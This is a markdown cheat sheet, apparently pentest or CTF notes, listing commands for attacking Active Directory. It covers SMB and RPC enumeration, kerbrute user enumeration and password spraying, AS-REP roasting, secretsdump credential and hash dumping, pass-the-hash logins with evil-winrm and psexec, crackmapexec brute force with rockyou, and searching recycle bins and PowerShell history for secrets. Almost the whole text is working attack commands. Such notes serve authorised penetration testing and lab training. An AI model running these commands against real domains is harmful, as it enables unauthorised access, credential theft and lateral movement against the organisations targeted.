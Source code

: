 # Active Directory? What to do?

**Adjust each command with the correct condition**

## list shares
`smbclient -L //[IP]`

## try anonymous login
`smbclient -N //[IP]/[sharename]`

## enum more with enum4linux
`enum4linux -a [IP]`

## spray username or password with kerbrute
`~/scripts/kerbrute userenum --dc [IP] -d [domain-name] [user_list]`
`~/scripts/kerbrute bruteuser --dc [IP] -d [domain-name] [password_list] [username]`

## ASREPRoasting with GetNPUsers.py
`python3 ~/scripts/impacket/examples/GetNPUsers.py -dc-ip [IP] [domain-name]/[user] -no-pass`
and crack it

## login to smbclient if you have creds
`smbclient -L //[IP] --user=[user] --password [password]`

## access shares if you have creds
`smbclient //[IP]/[sharename] --user=[user]`

## enum basic info with rpcclient
`rpcclient [domain-name] -U [username]`
> enumdomusers
> enumdomgroups

## try to dump secrets of you have creds
`python3 ~/scripts/impacket/examples/secretsdump.py -target-ip [IP] [domain-name]/[full-username] -outputfile secretsdump.log`
or
`python3 ~/scripts/impacket/examples/secretsdump.py [options you want] [user]:[password]@[IP]`

## got NTLM hash? got password? got user? evil-winrm time
`evil-winrm -i [IP] -u [user] -H [NT hash]`
or just use the password if you got one

or just psexec
`python3 ~/scripts/impacket/examples/psexec.py [username]@[ip_address]`


## Try Bruteforce SMB with crackmapexec
`crackmapexec smb <MACHINE-IP> -u <username> -p <wordlist>`
ex: `crackmapexec smb 10.10.153.204 -u Jareth -p ~/wordlists/rockyou.txt`


## Dumping LM and NTLM when we have system.bak and sam.bak
`python3 ~/scripts/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL -outputfile hashes.txt`

## How to find SID
`whoami /all | Select-String -Pattern "[username]" -Context 2,0`

## Always check recycle bin (Even via commandline)
cd 'C:\$Recycle.bin\<SID>'
ex:
cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'

## Check the powershell history (Ini ada di semua windows)
C:\Users\[username]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

